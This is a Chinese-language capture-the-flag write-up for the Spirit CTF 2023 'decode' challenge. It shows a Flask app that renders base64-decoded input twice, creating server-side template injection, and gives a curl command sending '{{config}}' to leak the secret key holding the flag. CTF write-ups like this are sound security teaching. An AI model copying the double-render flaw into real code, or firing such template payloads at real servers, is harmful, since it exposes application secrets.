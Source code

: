 # Spirit CTF 2023 热身赛题解 - decode
#Web #python #flask #SSTI 

```python
from flask import Flask, request, render_template, render_template_string
import os
import base64

app = Flask(__name__)
app.secret_key = os.getenv('FLAG')


def render(result, status, lastInput):
    return render_template('./index.html',
                           result=result,
                           status=status,
                           lastInput=lastInput)


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            return render_template_string(
                render(base64.b64decode(request.form.get('expr')).decode('utf-8'), 'success',
                       request.form.get('expr')))
        except:
            return render('Dame dane~', 'failure', request.form.get('expr'))
    else:
        return render('', '', '')


app.run(host='0.0.0.0', port=1234)
```

这题源码是后来放出的，没有源码的话也可以通过`Server`响应头推测出是`flask`作为后端。

代码逻辑中完成base64解码的用户输入在渲染了一次之后又经过了一次多余的渲染，于是有了SSTI（Server-Side Template Injection）的可能性。

利用方式是构造模板字符串，base64编码后作为用户输入，服务器解码后渲染一次无恙，第二次渲染便遇到了我们构造的非法模板。

另一个知识点是`flask`的配置在可以通过全局变量`config`获取。

```shell
curl --data expr="$(echo '{{config}}' | base64)" http://<host>:<port>/
```

![](<./img/Pasted image 20230508010747.png>)
